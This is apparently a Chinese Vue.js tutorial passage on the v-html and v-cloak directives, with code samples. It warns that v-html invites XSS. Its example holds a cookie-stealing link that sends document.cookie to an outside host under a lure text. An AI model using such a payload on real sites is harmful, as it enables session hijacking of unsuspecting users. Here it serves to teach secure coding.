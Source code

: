   3.严重注意：v-html 有安全性问题！！！！

- 在网站上动态渲染任意 HTML 是非常危险的，容易导致 XSS 攻击。
- 一定要在可信的内容上使用 v-html，永不要用在用户提交的内容上！

```html
<!-- 准备好一个容器-->
<div id="root">
	<div>你好，{{name}}</div>
	<div v-html="str"></div>
	<div v-html="str2"></div>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: '#root',
		data: {
			name: '张三',
			str: '<h3>你好啊！</h3>',
			str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
		}
	})
</script>
```

![image-20220629121130193](https://i0.hdslb.com/bfs/album/7c1c82f65d6431c7332ea00ece8fb6f3a2e8ef9e.png)

### 1.3v-cloak 指令

**v-cloak 指令（没有值）：**

- 本质是一个特殊属性，`Vue`实例创建完毕并接管容器后，会删掉`v-cloak`属性。
- 使用`css`配合`v-cloak`可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<style>
	[v-cloak] {
		display: none;
	}
</style>
<!-- 准备好一个容器-->
<div id="root">
	<h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

<script type="text/javascript">
	console.log(1)
	Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: '#root',
		data: {
			name: '尚硅谷'
		}
	})
</script>
```
